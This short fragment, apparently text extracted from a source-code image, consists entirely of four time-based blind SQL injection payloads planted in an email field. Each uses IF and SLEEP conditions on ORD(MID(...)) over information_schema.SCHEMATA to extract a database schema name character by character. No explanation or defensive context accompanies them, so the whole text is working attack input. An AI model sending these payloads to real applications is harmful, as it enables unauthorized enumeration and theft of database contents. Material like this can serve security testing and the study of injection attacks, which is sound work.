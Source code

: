 {email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=100,SLEEP(0.122010510204),SLEEP(0)) -- -}

